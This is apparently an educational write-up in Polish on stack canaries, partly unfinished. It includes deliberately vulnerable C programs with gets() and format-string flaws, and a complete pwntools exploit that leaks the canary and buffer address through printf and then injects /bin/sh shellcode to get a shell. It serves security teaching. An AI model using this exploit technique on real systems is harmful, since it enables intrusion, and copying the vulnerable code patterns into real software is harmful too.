

# Stack canary

## 1. Opis


## 2. Wady i zalety


## 3. GCC i Clang


## 4. Różnice w Windows i Linux

## 5.1 Przykładowa aplikacjia - atak `schellcode injection`

Tak jak wspomniałem wcześniej, stack canary jest metodą, która może uchornić aplikację przed atakiem BOF. Przykładem będzie aplikacja stworzona na potrzeby metody `NX bit`. Aplikacja posiada podatność w postaci funkcji `gets()`. W przypadku wyłączonego kanarka jesteśmy w stanie zdobyć shella w identyczny sposób jak opisany w `1-NX`.

Założenia kompilacji:
* Kompilacja na 32-bit = `-m32`
* Wyłączone ASLR = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
* Wyłączone NX = `-z execstack`
* Wyłączone Stack Cannary = `-fno-stack-protector`

```c
#include <stdio.h>
#include <string.h>

void vuln()
{
        char buffer[16];
        gets(buffer);
        printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```


Plik skompilowany w taki sposób jesteśmy w stanie exploitować za pomocą takiego samego ataku jak w `NX bit`, czyli `shell injection` lub `ret2libc`. 





Sytuacja zmienia się jednak, gdy zastosujemy stack canary. Wówczac ataki wymienione powyżej muszą ulec zmianie. Wartośc kanarka znajduje się nad nad adresem powrotu, zatem jeżeli będziemy chcieli nadpisać ret, będziemy zmuszeni podać również wartość kanarka. Jeżeliu tego nie zrobimy dostaniemy błąd `stack smashing detected` - wartość kanarka nieodpowienida = nastąpił bof.


## 5.2 Przykładowa aplikacja - atak `BOF` z wyciekiem `stack canary`


W punkcie opisanym powyżej, wspomniałem że do udanego ataku potrzebujemy dodać na stack również wartość kanarka. Trudnością jest uzyskanie tego kanarka. Można to zrobić, jeżeli aplikacja zawiera podatności typu `printf()`, gdzie za pomocą odpowiednich specyfikatorów można wypisać wartość na stosie.

Poniżej znajduje się kod aplikacji zaiwerającej dwie podatności. Pierwszą z nich jest `gets()` - pozwala na BOF, drugą jest `printf()` - pozwala wypisać stos.

Założenia kompilacji:
* Kompilacja na 32-bit = `-m32`
* Włączone ASLR = `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space`
* Wyłączone NX = `-z execstack`
* Włączone Stack Cannary = `-fstack-protector`


```c
#include <stdio.h>
#include <string.h>

void vuln()
{
        char buffer[600];
        gets(buffer);
        printf(buffer);
        printf("\n");
        gets(buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```


W przypadku tego exploita pokusiłem się o pozostawienie ASLR włączonego, oznacza to że sam będę musiał znaleźć adres buffora. Celem oczywiście jest uzyskanie shella. Aby tego dokonać należy wykonać następujące czynności:

* należy użyć podatnośći związanej z funkcją `print()` i używając specyfikatora `%p` wypisać wartości na stosie
* zidentyfikować kanarek
* obliczyć adres `buffora` na podstawie odpowiedniego offsetu
* obliczyć wymagany padding 


Pierwszą rzeczą jaką wykonałem to sprawdzenie co znajduje się na stosie. Użyłem fo tego któtkiego skryptu python, który wypisuje jako logi wartości na stosie. Buffor ma rozmiar 600 byte, mogę więc zatem wypisać 299 wartości, jednakże ze względu na to że taka ilość nie jest potrzeban wypisuje ich 199. Ważne jest aby nie przekroczyć zakresu boffora, gdyż inaczej napiszemy kanarka.

```python
from pwn import *

p = process('./vuln-protected-2')
p.writeline("%p " * 199)
data = p.readline()
data = data.split(b" ")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))
```


Następnie, musiałem zidentyfikować, w którym miejscu znajduje się kanarek. W tym celu posłużyłem się `gdb`. W `disassemble` kodzie funkcji `vuln` dokładnie widać, w którym miejscu kanarek jest sprawdzany. Widać też, pod jakim adresem znajduje się on na stosie, jest to adres `ebp - 0xc`. Mówi o tym instrukcja `mov    eax,DWORD PTR [ebp-0xc]`. 


Następnie poleceniem `stack 200` jestem w stanie sprawdzić, jakie wartości znajdują sie na stosie. Wiemy, że kanarek znajduje się pod wartością `ebp - 0xc`, dzięki czemu znamy jego wartość. Alternatywnie kanarek możemy znaleźc w kodzie po prostu sprawdzając wartości przed returnem. Jest on dość łatwy do odnalezienia ze względu na fakt, że znamy jego orientacyjne położenie oraz wiemy, że ostatni bajt to 0 dla architektury x86.


Znając już wartośc kanarka, mogę sprawdzić którym elementem z w tablicy z uzyskanych wartości stosu jest kanarek. W przypadku tej aplikacji jest to `155` element (index w tablicy to `154`). Takie sprawdzenie jest możliwe, jeżeli dany proces zostanie podpięty pod `gdb`, gdyż w innym przypadku kanarek będzie miał inną wartość.


Kolejnym zadaniem było odnalezienie adresu buffora na stosie. Tak jak wspomniałem w założeniach kompilacji, w tym przypadku ASLR oraz PIE jest włączone, co powoduje randomizacje adresów (więcej o tych technikach w kolejnych katalogach). Do obliczenia offsetu posłużyłem się `gdb`, w którym to odnalazłem adres `ebp`, który jestem w stanie zleakować ze stacka, jest on 158 elemente (index w tablic to `157`). W `gdb` odnalazłem również adres `buffer`. Obliczająć różnicę pomiędzy tymi dwoma adresami jestem w stanie znaleźć offset, którym będę mógł się posłużyć do wyliczania rzeczywistego adresu `buffer` w apliakcji. Adres w ebp to `0xffffd1c8`, a adres `buffer` to  `0xffffcf54`, zatem offset wynosi 628.


```python
>>> 0xffffd1c8 - 0xffffcf54
628
>>> hex(_)
'0x274'
```


Mając już kanarka oraz adres buffora należy stworzyć shellcode. Shellcode ponownie wykorzystałem ze strony [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-752.php).

```python
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
```


Ostatnim elementem jest odnalezienie odpowiedniego paddingu, aby na do rejestru `eip` trafił adres `buffer`. Wysyłam payload w postaci podanej poniżej. W wyniku wysłania tak skonstruowanego payloadu, dowiaduję się, że padding to `BBBBCCCCDDDD`.

`A` * 600 (wielkośc buffora) + kanarek + `BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ...`


Kod exploitu znajduje się poniżej.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-protected-2')

p.writeline("%p " * 199)

data = p.readline()
data = data.split(b" ")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

canary = int(data[154],16)
log.info("CANARY: 0x%08x" % canary)

shellcode_asm = """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
"""

shellcode = asm(shellcode_asm)
buffer_len = 600
some_addres = int(data[157],16)
offset = 628
buffer_addres = some_addres - offset

log.info("BUFFER: 0x%08x" % buffer_addres)

send = shellcode + b"A"* (buffer_len - len(shellcode)) + p32(canary) + b"BBBBCCCCDDDD" + p32(buffer_addres)
p.sendline(send)
p.interactive()
```


W wyniku działania powyższego exploita uzyskujemy shella. Na potrzeby kolejnego screena wyłączone zostało wypisanie stacka na konsole.


## 6. Podsumowanie


